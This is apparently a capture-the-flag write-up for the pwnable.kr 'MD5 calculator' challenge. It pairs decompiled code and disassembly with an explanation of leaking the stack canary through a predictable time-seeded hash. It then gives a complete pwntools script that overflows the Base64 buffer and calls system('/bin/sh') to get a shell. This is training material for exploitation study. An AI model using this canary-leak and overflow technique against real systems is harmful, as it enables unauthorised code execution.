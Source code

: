 # Pwnable.kr MD5 calculator CTF Writeup

## Problem Description

The code of the program is:

### my_hash

```c
08048ed8  int32_t my_hash()

08048edf      void* gsbase
08048edf      int32_t eax = *(gsbase + 0x14)
08048eed      void var_30
08048eed      void* var_38 = &var_30
08048eed      
08048f1a      for (int32_t i = 0; i s<= 7; i += 1)
08048f10          *((i << 2) + var_38) = rand()
08048f10      
08048f75      int32_t result = *(var_38 + 0x14) + *(var_38 + 4) + *(var_38 + 8) - *(var_38 + 0xc) + *(var_38 + 0x20) + *(var_38 + 0x1c) + *(var_38 + 0x10) - *(var_38 + 0x18)
08048f75      
08048f85      if (eax == *(gsbase + 0x14))
08048f91          return result
08048f91      
08048f87      __stack_chk_fail()
08048f87      noreturn
```

### process_hash

```c
08048f92  int32_t process_hash()

08048f9d      void* gsbase
08048f9d      int32_t eax = *(gsbase + 0x14)
08048fbe      void s
08048fbe      __builtin_memset(&s, c: 0, n: 0x200)
08048fc9      int32_t i
08048fc9      
08048fc9      do
08048fc1          i = getchar()
08048fc9      while (i != 0xa)
08048fde      __builtin_memset(s: 0x804b0e0, c: 0, n: 0x400)
08048ff8      fgets(buf: &_0x804b0e0, n: 0x400, fp: stdin)
08049013      __builtin_memset(&s, c: 0, n: 0x200)
08049044      int32_t eax_3 = calc_md5(&s, Base64Decode(0x804b0e0, &s))
08049061      printf(format: "MD5(data) : %s\n", eax_3)
0804906f      free(mem: eax_3)
08049077      int32_t result = eax ^ *(gsbase + 0x14)
08049077      
0804907e      if (result == 0)
0804908e          return result
0804908e      
08049080      __stack_chk_fail()
08049080      noreturn
```

### main

```c
0804908f  int32_t main(int32_t argc, char** argv, char** envp)

080490b8      setvbuf(fp: stdout, buf: nullptr, mode: 1, size: 0)
080490dd      setvbuf(fp: stdin, buf: nullptr, mode: 1, size: 0)
080490e9      puts(str: "- Welcome to the free MD5 calcul…")
080490fd      srand(x: time(nullptr))
08049102      int32_t eax_1 = my_hash()
0804911b      printf(format: "Are you human? input captcha : %…", eax_1)
08049130      int32_t var_18
08049130      __isoc99_scanf(format: &data_80492df, &var_18)
08049130      
0804913d      if (eax_1 != var_18)
08049146          puts(str: "wrong captcha!")
08049152          exit(status: 0)
08049152          noreturn
08049152      
0804915e      puts(str: "Welcome! you are authenticated.")
0804916a      puts(str: "Encode your data with BASE64 the…")
0804916f      process_hash()
0804917b      puts(str: "Thank you for using our service.")
08049187      system(line: "echo `date` >> log")
08049192      return 0
```

## Analysis

The program first using `srand` function to decleare a seed for the random function. the seed is the current time. This means that if we know the eaxct time the program ran, we can know all the random values in the program. after that the program calls `my_hash` function which genreate hash. It does that by creating an array of length 8 that countain random values (that we can predict). Than it calculate the hash like this: `result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + var[8]`. As we can see, there is buffer overflow here, because `var[8]` is outside the array. So the hash countain some 4 byte value on the stack, which we can calculate and find. To find whats that value, we need to look in the disasmbley. In there we can see that the canary is set in these lines:
```asm
.text:08048EDF                 mov     eax, large gs:14h
.text:08048EE5                 mov     [ebp-0xc], eax
```
so the canary is located in `[ebp-0xc]`.
In addition we can see from your disassembly:
```asm
mov [ebp-0xc], eax
lea eax, [ebp-0x2c]
mov [ebp-0x34], eax
```
So the array starts at `[ebp-0x2c]` which is `[ebp-44]` and its size is 8 so its total size is 32 bytes, which means the `arr[8]` is in address `[ebp-12]` (44-32=12) which in hex is `[ebp-0xc]`, and thats where the canary is saved.
So the hash is equal to `vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6] + canary`, and since we know all the radom values, we can calculate the canary. All we need to do is to run the exploit code locally (so time() will return the same number), create an array of 8 random numbers and calculating the hash without the canary. Than we need to take the hash the program gave us and subtruct from it the hash we calculated, and than we will get the canary.

The second part of the exploit is on the `process_hash()` function. In this function, there is another buffer overflow bug: there is on the stack an array of length `0x200` bytes (512 bytes), but the program lets us write `0x400` (1024 bytes) to it. However, because there is stack protection (canary), we cant overwrite the stack. Fourntly, we already know the canary, so we simpliy need to overwrite the stack with what we want and write the canary we found in its original place. This way we can overwrite whatever we want on the stack.



## Exploit Code

```python
from pwn import *
import ctypes
import time

context.log_level = 'info'

libc = ctypes.CDLL("libc.so.6")
libc.srand.argtypes = (ctypes.c_uint,)
libc.rand.restype = ctypes.c_int

seed = int(time.time())
libc.srand(seed)

vals = [libc.rand() for _ in range(8)]

result = vals[5] + vals[1] + vals[2] - vals[3] + vals[7] + vals[4] - vals[6]
print("result:", result)

p = remote('localhost', 9002)

p.recvuntil(b'captcha : ')
captcha = int(p.recv().decode())
p.sendline(str(captcha))
print("captcha:", captcha)

canary = captcha - result
canary = canary & 0xffffffff
canary = p32(canary)
print("canary:", canary)

call_system_addr = p32(0x8049187)
print("call system address:", call_system_addr)

binsh_addr = p32(0x804B3AC)
print("/bin/sh address:", binsh_addr)

payload = b'A' * 512 + canary + b'A' * 12 + call_system_addr + binsh_addr
payload = b64e(payload).encode() + b'/bin/sh\0'

p.recvuntil(b'Encode your data with BASE64 then paste me!\n')
p.sendline(payload)
p.interactive()
```


